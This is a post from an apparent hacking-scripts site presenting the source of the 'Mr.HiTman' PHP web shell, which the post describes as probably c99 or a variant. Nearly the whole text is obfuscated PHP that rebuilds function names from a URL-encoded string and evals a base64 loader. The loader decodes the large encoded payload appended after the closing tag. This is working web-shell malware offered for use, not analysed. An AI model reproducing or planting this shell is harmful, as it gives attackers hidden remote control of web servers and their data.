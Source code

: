 ```yaml
---
id: 76
title: Mr.HiTman shell script (encrypted)
author: admin
layout: post
guid: http://hackingscripts.com/?p=76
permalink: /mr-hitman-shell-encrypted/
categories:
  - Mr.HiTman
  - PHP
tags:
  - Mr.HiTman
  - PHP
---
```

Mr.HiTman&#8217;s shell is an encrypted PHP script &#8211; probably c99 or a variation of it.

### Mr.HiTman Shell Script (encrypted) Source Code

<pre class="brush: php; title: ; notranslate" title="">&lt;?php /* Mr.HiTman */$OOO000000=urldecode('%66%67%36%73%62%65%68%70%72%61%34%63
%6f%5f%74%6e%64');$OOO0000O0=$OOO000000{4}.$OOO000000{9}.$OOO000000{3}.$OOO0000
00{5};$OOO0000O0.=$OOO000000{2}.$OOO000000{10}.$OOO000000{13}.$OOO000000{16};$O
OO0000O0.=$OOO0000O0{3}.$OOO000000{11}.$OOO000000{12}.$OOO0000O0{7}.$OOO000000{
5};$OOO000O00=$OOO000000{0}.$OOO000000{12}.$OOO000000{7}.$OOO000000{5}.$OOO0000
00{15};$O0O000O00=$OOO000000{0}.$OOO000000{1}.$OOO000000{5}.$OOO000000{14}.$OOO
000000{3};$O0O00OO00=$OOO000000{0}.$OOO000000{8}.$OOO000000{5}.$OOO000000{9}.$O
OO000000{16};$OOO00000O=$OOO000000{3}.$OOO000000{14}.$OOO000000{8}.$OOO000000{1
4}.$OOO000000{8};$OOO0O0O00=__FILE__;$OO00O0000=82944;eval($OOO0000O0('aWYoITAp
JE8wMDBPME8wMD0kT09PMDAwTzAwKCRPT08wTzBPMDAsJ3JiJyk7JE8wTzAwME8wMCgkTzAwME8wTzA
wLDEwMjQpOyRPME8wMDBPMDAoJE8wMDBPME8wMCw0MDk2KTskT08wME8wME8wPSRPT08wMDAwTzAoJE
9PTzAwMDAwTygkTzBPMDBPTzAwKCRPMDAwTzBPMDAsMzgwKSwnWGU3dldIZkk2YVJkMkMvcStVRjl6b
E4zakJvWnhpNGNLUTBieTV3dWtQRGc4bnBPaEFyVG10c1ZFWTFNTFNKRz0nLCdBQkNERUZHSElKS0xN
Tk9QUVJTVFVWV1hZWmFiY2RlZmdoaWprbG1ub3BxcnN0dXZ3eHl6MDEyMzQ1Njc4OSsvJykpO2V2YWw
oJE9PMDBPMDBPMCk7'));return;?&gt;
aWSq2veq2veq2vt5xwlu3Va5xfAQjszkatScUy52UlScarh0
ar6paWSq9Teq2WLh27E0ar68aWSq9TXh2veq27Ky9mSq2vXh2veqR7Uq2WLh2WSq2vXkaWLh2veq2WL
h27hy9mLh2WLh2vXhRFhuNfzVi5i6Byysjlay2y2OxFnlUb51ZWEToyaONuQPCfCdz9e049lViNn+Uf
xEZueqoWHrlftmxtBHN9HC9HCRUTmud7ie+yCWUzBIFW5RFmAC9yS+zla9lHlNltQBNwH0jsU5Bwiko
NPgZftpZVeAxuCmi3BV4I512vWr2T+tCbxE/F8OaryPR9nwjsAOxszkaWLh2veq2WLh27yMB3BQZ7Ky
9mLh2WLh2WLhR98=v+P5xuaOx5SrB3eOxuUPZwxkCryMv+PXxslm3stQBs5b3VHtZVU5xtSriNYmoNt
5RvXP/hmRZsacxVUQxu+kR98C70Unif5nBFXS6flExfAOBfzkarXudftPjVaOif5nBFKPR98C70UTif
HriIUPZNzKqFXyZ3UPZNlZ2lmKRrUnif5nBl8h398C7wU5Bw5pBFKuzmHczySql7x8xVUr3Va5xfAQj
szkatAxarhudrx8Bf5rZwHnBFQc3mBa9Wlc3ryPd0xOaryMv+PyBNBPZwzkam593tia90x8UW5FUzCz
9taB3tCHzWHF+lUqz0XSqFXu3HhuR98C7wU5Bw5pBFKuFlCc+mSCarAbZfHTxtS54f5TiI2kamCq9Fx
P6vLA6vkK27XP/hmRBflwoNY5R7iaztSIzW2udfi5iHSnjNiPjtSAiNSmB3CcBVebR7yP/hmRafUPxt
SwiNYb6vmKBslm3sCwBtSsj36kasUPxsH0ZflcBulpjVUPZsYTaryMv+PyBNBPZwzkam593te6zW5/U
yLud7KQB3a5Bsyk6uekxf5pBwL0d7Uyo3CcBulpjryP6vLA6vkK27XP/hmR+IC5iHSmoNt53sAPZN5m
RvXP/hmRBwSrBNHbo7QQxuaQ4FKu3miHl7x8atS+9tCzaryKj32KaHSrB3HtB3CmRFeMv+PwZVa5jNC
kR7+y3Va5x3l5xV+Kj32KaHSgB3yKq9Ey3VBQZIl5RFeMv+PPB0XkaHSgB35M2ImQqFXu3rxP6I8C7w
5w67QaztSIzW2P6I8C70UciwH8iNzKqFeT3sHrxwHYR7UciwH8iNzP/hmRc+mRa7UcoslY6vmKaHSsj
NAtB98C7umC7umC7umC70UQBftPZ0XS6fHrxwHYR7yMv+kyjNUnoNYZasCkBNCgatmKqFewjNATB98C
70UQBftPZ58uxfHTxrii67XS67iEovUboTCraT8C70UQBftPZ58ujsSOos55xIa5atmKqFXuaT8C70U
QBftPZ58ujsSOos55BfSnjN5patmKqFXuaT8C70UQBftPZ58ujsSOos55xfHmo7ii6vmKarLu/hmRaf
HyZN5pNribZsSgoNl8oNB5atmKqFXECb+h2v8C7w5w67KyjsQQxuC5i7XSqFXui3Uw/7xP6I8C7wQ5j
NU5x0K0jsSpiflpi7tz43e5/0emB3QmdsQmZNhM6fCkj3aTB3+Si3Uwd9K0R98C7ut5ZIC5oNjKR7Ub
ofHrxslm6vmS67i0oNxtaryK4hmRoflQBflrR7abZsYmBNYmdlUYxfz16IU54I+OoIUnZv8KjsQQxuC
5ivt0oNxt60yMv+PSBNATBN5w67KyjsQQxuC5i7XSqFXuBsagaryK4hmRoflQBflrR7abZsYmBNYmdl
UYxfz16IU54I+OoIUnZv8KjsQQxuC5ivtujw80R98C7ut5ZIC5oNjKR7UbofHrxslm6vmS67i8j3UPZ
bWuRFeMv+PkBNHyB36k6wCOZuU5Zu+nlI5hB9kKiflEi7Skift8/rebofHrxslmqN5TZrmE/vzYd960
R98C7umC70UTBNAw6vmKaHS9UlaNUlaZate6zHS9UzAfatmKqrUczmlFlylFNri+FHeczml2U0ii6vk
KaHS9UlaNUlaZatCvzy5+lHS/+ztHatmMv+kyif5nB3CmjNth6vmKif5nBFKP/hmRoNjKR7UQjVUPZs
EKq9mK6wAOBsSti76P6I8C7uCbZsSgoNzkaVekxICh43eQxV2ud7xud7mECb+h27XD6v2sCFyMv+PhR